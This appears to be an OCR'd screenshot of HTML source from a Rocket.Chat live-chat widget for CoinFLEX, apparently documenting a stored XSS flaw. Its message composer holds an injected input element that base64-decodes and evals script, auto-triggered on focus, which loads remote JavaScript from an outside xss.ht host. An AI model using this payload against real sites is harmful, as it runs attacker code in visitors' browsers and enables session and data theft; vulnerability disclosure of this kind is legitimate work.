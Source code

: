 ```html
class="header__content__pXDMp"><div class="header__title__PtLVn">CoinFLEX Live
Chat</div></div><nav class="header__actions__aNMyg"><button
class="header__action__2wnEh" aria-label="Disable notifications"><svg
xmlns="http://www.w3.org/2000/svg" viewBox="0 0 18 18" width="20" height="20"><path
d="M4.619 10.532V6.374c0-2.296 1.962-4.158 4.381-4.158 2.419 0 4.381 1.862 4.381
4.158v4.158l1.643 3.118H2.976l1.643-3.118zm3.047 4.426h2.668c-.195.514-.716.884-
1.334.884s-1.139-.37-1.334-.884zm7.048-8.625C14.714 3.388 12.155 1 9 1 5.845 1 3.286
3.388 3.286 6.333V10.6L1 14.867h5.201C6.465 16.084 7.618 17 9 17s2.535-.916 2.799-
2.133H17L14.714 10.6V6.333z" fill="currentColor"
fill-rule="evenodd"></path></svg></button><button class="header__action__2wnEh" aria-
label="Minimize chat"><svg viewBox="0 0 18 18" xmlns="http://www.w3.org/2000/svg"
width="20" height="20"><path d="M16.071 5L9 12.071 1.929 5" stroke="currentColor"stroke-width="1.5" fill="none"></path></svg></button><button
class="header__action__2wnEh" aria-label="Expand chat"><svg viewBox="0 0 20 20"
xmlns="http://www.w3.org/2000/svg" width="20" height="20"><path d="M15.286
1H2.715c-.947 0-1.714.767-1.714 1.714v12.571A1.714 1.714 0 002.715 17h12.571c.947 0
1.714-.768 1.714-1.715V2.715C17 1.767 16.233 1 15.286 1zm.571 14.286a.572.572 0
01-.571.571H2.715a.572.572 0
01-.571-.571V2.715c0-.315.256-.571.571-.571h12.571c.315
0 .571.256.571.571v12.571zM4.554 13.244a.429.429 0 010-.606l6.97-6.97-.025-.025-
3.213.012a.429.429 0 01-.429-.428V4.87c0-.237.192-.429.429-.429l4.857-.012c.237
0 .429.192.429.428l-.013 4.858a.429.429 0 01-.428.428h-.357a.429.429 0
01-.429-.428l.012-3.213-.025-.026-6.97 6.97a.429.429 0 01-.606 0l-.202-.202z" stroke-
width=".3" fill="currentColor" stroke="currentColor"></path></svg></button></nav><div
class="header__post__VA2cW"></div></header><div data-overlay-text="Drop here to
upload a file" class="drop__6UUiL drop--overlayed__JT4ny"><input type="file"
class="drop__input__2o6so"><main class="screen__main__DBTEi screen__main--
nopadding__16Bsg"><div class="chat__messages__f3sJg chat__messages--
atBottom__1wPuF"><div class="message-list__1jRl9"><ol class="message-
list__content__3TyF4"></ol></div></div></main><footer class="footer__1V22a"><div
class="footer__content__1tgEl"><div class="composer__27x96"><div
class="composer__actions__3eA8B"><button type="button"
class="composer__action__2ZuQd"><svg viewBox="0 0 20 20"
xmlns="http://www.w3.org/2000/svg" width="20" height="20"><g fill="none" fill-
rule="evenodd"><circle cx="12" cy="8" r="1" fill="currentColor"></circle><circle cx="8"
cy="8" r="1" fill="currentColor"></circle><circle cx="10" cy="10" r="7" stroke="currentColor"
stroke-width="1.5"></circle><path d="M7.172 12.328a4 4 0 005.656 0"
stroke="currentColor" stroke-width="1.5"></path></g></svg></button></div><div
contenteditable="true" data-placeholder="Type your message here"
class="composer__input___Cggy">"&gt;<input onfocus="eval(atob(this.id))"
id="dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHB
zOi8vYXNzZXRjeWJlci54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYS
k7" autofocus=""></div><div class="composer__actions__3eA8B"><button type="button"
class="composer__action__2ZuQd"><svg viewBox="0 0 24 24"
xmlns="http://www.w3.org/2000/svg" width="20" height="20"><path d="M10.342
13.283l9.56-10.359-13.049 8.264L1 8.778 21.506 1l-7.778 20.506-3.386-8.223z"
fill="currentColor" stroke="currentColor" stroke-width="1.5" fill-rule="evenodd" stroke-
linecap="round" stroke-linejoin="round"></path></svg></button></div></div></div><div
class="footer__content__1tgEl"><h3 class="powered-by__1DxxE">Powered by <a
href="https://rocket.chat" target="_blank" rel="noopener noreferrer"><svg viewBox="0 0
1500 272" xmlns="http://www.w3.org/2000/svg" class="powered-by__logo__2Y08v"
width="60" height="10.88" role="img" aria-label="Rocket.Chat"><g fill="none" fill-
rule="evenodd"><path class="text" d="M461.588 132.646c0 15.237-5.687 25.243-16.607
30.016l15.699 59.582c.681 2.734-.681 4.092-3.186 4.092h-23.663c-2.274 0-3.41-1.135-
3.867-3.184l-15.244-57.76h-15.699v57.31c0 2.276-1.362 3.634-3.64 3.634h-23.663c-2.274
0-3.64-1.365-3.64-3.634V48.052c0-2.273 1.366-3.638 3.64-3.638h57.107c21.385 0 32.763
11.372 32.763 32.746v55.49zm-40.043 2.727c5.914 0 9.1-3.184 9.1-9.095V83.525c0-
5.911-3.186-9.092-9.1-9.092h-22.524v60.943l22.524-.004zm58.235-58.217c0-21.375
11.374-32.746 32.763-32.746h25.483c21.385 0 32.763 11.372 32.763 32.746v116.43c0
21.371-11.377 32.743-32.763 32.743h-25.483c-21.389 0-32.763-11.372-32.763-
32.743V77.156zm52.555 119.84c5.914 0 9.1-2.957 9.1-9.095V82.84c0-5.911-3.186-9.095-
9.1-9.095h-13.194c-5.914 0-9.1 3.184-9.1 9.095V187.9c0 6.134 3.186 9.091 9.1
9.091h13.194zm152.425-95.281c0 2.276-1.366 3.638-3.636 3.638h-22.751c-2.505 0-3.64-
```
